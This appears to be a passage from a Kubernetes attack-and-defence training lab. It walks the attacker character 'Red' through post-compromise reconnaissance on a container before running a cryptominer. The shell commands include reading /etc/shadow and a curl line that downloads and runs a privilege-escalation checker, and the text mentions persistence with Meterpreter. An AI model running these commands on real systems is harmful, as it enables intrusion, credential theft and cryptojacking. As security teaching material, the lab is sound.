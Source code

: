 * __Attack Something__

    In this phase, you take some action in the hope of getting closer to your goal. This may be running an exploit tool against a buggy piece of software, launching some kind of credential-guessing utility, or even just running a system command like kubectl apply. Your success or failure will teach you more about your target and situation. Move on to Study, Persist, or Win, as appropriate.

* __Persist__

    In this optional phase, you take some action to make it easier to re-enter the system or network at a later time. Common options are running a malware Remote Access Tool such as Meterpreter, creating new accounts for later use, and stealing passwords.

* __Win__

    Eventually, you may achieve your goals. Congratulations! Now you can stop hacking and begin dreaming about your next goal.

## Getting Some Loot

Since __Red__ already has a shell on a compromised host (Thanks, Natoshi!), the process is fairly simple. They need to identify the resources available to them by poking around, and then run the cryptominer as easily as possible:

Let's become __Red__ and try some basic information-gathering commands to get a feel for the environment:

```console
id
```
```console
uname -a
```
```console
cat /etc/lsb-release /etc/redhat-release
```
```console
ps -ef
```
```console
df -h
```
```console
netstat -nl
```

Note that the kernel version doesn't match up to the reported OS, and there are very few processes running. This is probably a container.

Let's do some basic checking to see if we can get away with shenanigans. Look around the filesystem. Try downloading and running <a href="http://pentestmonkey.net/tools/audit/unix-privesc-check" target="_blank">a basic Linux config auditor</a> to see if it finds any obvious opportunities. Search a bit on https://www.exploit-db.com/ to see if there's easy public exploits for the kernel.

```console
cat /etc/shadow
```
```console
ls -l /home
```
```console
ls -l /root
```
```console
cd /tmp; curl http://pentestmonkey.net/tools/unix-privesc-check/unix-privesc-check-1.4.tar.gz | tar -xzvf -; unix-privesc-check-1.4/unix-privesc-check standard
```
